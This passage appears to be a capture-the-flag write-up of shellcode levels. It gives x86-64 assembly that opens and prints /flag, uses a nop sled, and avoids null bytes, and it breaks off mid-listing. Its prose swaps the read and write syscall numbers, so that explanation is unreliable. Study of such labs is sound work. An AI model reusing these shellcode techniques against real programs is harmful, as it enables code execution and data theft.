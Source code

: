 ```python
    pwn.info(target.readrepeat(1))
```

I wrapped the shellcode in python and used `pwntools` to send it to the binary. This code will be the default template for the future challenges. We use set `rax` to be 2 to open the `/flag`. We then store the returned FD into `rdi` and set `rax` to 0 to write to STDOUT. Lastly, we will set `rax` to 1 to read. 

### level2

This level has a new constraint. The program can skip upto 0x800 bytes from our shellcode. The hint was that we can use a simple 1 byte instruction to fill up the space, such as `nop`. This is called `nop sleding`. I will only post the shellcode from now.

```asm
.global _start
.intel_syntax noprefix
_start:
    .rept 0x800
    nop
    .endr
    mov rax, 2
    lea rdi, [rip + flag]
    mov rsi, 0
    syscall
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 100
    mov rax, 0
    syscall
    mov rdi, 1
    mov rsi, rsp
    mov rdx, rax
    mov rax, 1
    syscall
    mov rax, 60
    syscall
flag:
    .ascii "/flag\0"
```

### level3

- Reference: https://www.youtube.com/watch?v=QYlJd_0hRmI&list=PL-ymxv0nOtqrx3u1ZH3J9keH1ZgK8wJXF&index=7

This level requires us not to have any `00` byte in our shellcode. Using `xor` trick to zero out the bits is the technique I used the most often. The hardest part was moving `/flag\0` characters into `rdi`. I referred to the office hour videos for that. What he did was building the string character by character in the stack. 

```asm
.global _start
.intel_syntax noprefix
_start:
    xor rax, rax
    mov al, 2
    mov byte ptr [rsp], '/'
    mov byte ptr [rsp+1], 'f'
    mov byte ptr [rsp+2], 'l'
    mov byte ptr [rsp+3], 'a'
    mov byte ptr [rsp+4], 'g'
    xor cl, cl
    mov byte ptr [rsp+5], cl
    mov rdi, rsp
    xor rsi, rsi
```
